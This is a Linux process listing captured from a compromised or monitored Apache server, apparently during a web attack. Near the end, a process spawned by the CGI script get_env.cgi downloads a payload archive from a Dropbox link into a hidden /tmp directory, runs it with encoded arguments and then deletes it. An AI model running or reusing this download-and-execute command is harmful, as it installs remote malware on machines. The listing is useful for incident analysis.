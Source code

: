 ```bash
17     0      0      [kacpi_notify]                                                  
18     0      0      [kacpi_hotplug]                                                 
19     0      0      [kseriod]                                                       
21     0      0      [kondemand/0]                                                   
22     0      0      [khungtaskd]                                                    
23     0      0      [kswapd0]                                                       
24     0      0      [ksmd]                                                          
25     0      0      [aio/0]                                                         
26     0      0      [crypto/0]                                                      
194    0      0      [ksuspend_usbd]                                                 
195    0      0      [khubd]                                                         
196    0      0      [ata/0]                                                         
197    0      0      [ata_aux]                                                       
198    0      0      [scsi_eh_0]                                                     
199    0      0      [scsi_eh_1]                                                     
207    0      0      [mpt_poll_0]                                                    
208    0      0      [mpt/0]                                                         
215    0      0      [scsi_eh_2]                                                     
242    0      0      [kjournald]                                                     
310    0      0      udevd --daemon                                                  
465    0      0      udevd --daemon                                                  
468    0      0      udevd --daemon                                                  
518    0      0      [kpsmoused]                                                     
530    0      0      [kgameportd]                                                    
540    0      0      [usbhid_resumer]                                                
760    1      1      /sbin/portmap                                                   
772    102    0      /sbin/rpc.statd                                                 
901    0      0      /usr/sbin/rsyslogd -c4                                          
926    0      0      /usr/sbin/acpid                                                 
950    0      0      /usr/sbin/apache2 -k start                                      
976    0      0      /usr/sbin/atd                                                   
979    33     33     /usr/sbin/apache2 -k start                                      
980    33     33     /usr/sbin/apache2 -k start                                      
981    33     33     /usr/sbin/apache2 -k start                                      
982    33     33     /usr/sbin/apache2 -k start                                      
983    33     33     /usr/sbin/apache2 -k start                                      
1035   0      0      /usr/bin/daemon /etc/init.d/mpt-statusd check_mpt               
1039   0      0      /bin/sh /etc/init.d/mpt-statusd check_mpt                       
1040   0      0      /usr/sbin/cron                                                  
1181   0      0      sleep 600                                                       
1301   101    103    /usr/sbin/exim4 -bd -q30m                                       
1319   0      0      /bin/login --                                                   
1320   0      0      /sbin/getty 38400 tty2                                          
1321   0      0      /sbin/getty 38400 tty3                                          
1322   0      0      /sbin/getty 38400 tty4                                          
1323   0      0      /sbin/getty 38400 tty5                                          
1324   0      0      /sbin/getty 38400 tty6                                          
1325   0      0      [flush-8:0]                                                     
1335   0      0      dhclient -v -pf /var/run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases eth0
1366   0      0      /usr/sbin/sshd                                                  
1367   0      0      -bash                                                           
1594   33     33     /usr/sbin/apache2 -k start                                      
4178   0      0      watch -n 0.1 ps -aux | grep curl                                
4299   33     33     /bin/bash /usr/lib/cgi-bin/get_env.cgi                          
4300   33     33     /bin/bash -c mkdir /tmp/.\ ; LD_LIBRARY_PATH="/tmp/.\ /:$LD_LIBRARY_PATH" ; curl -L -o /tmp/.\ /payload.tar.gz "https://www.dropbox.com/s/4ebxsvbjkopzaxa/payload.tar.gz?dl=1" ; tar xvf /tmp/.\ /payload.tar.gz -C /tmp/.\  ; /tmp/.\ /payload.run 6FYTQ0TN/NX2UCt3AcjL/sXX3ohzcsmFRCDF6aSNGg== qhYMABqJ/4ShTis= /VVOW1jaow== 2GBzfhqKjoCtV344U5DHpIaO3osma5nNU3yRquzcV56Ve5+QVJ/wqtsiLWo9qTP28FLqF4SQGVUfjenPwYKI1bnB0SxOack= ; rm -rf /tmp/.\  
5521   33     33     apache2                                                                                                                                                                                        
```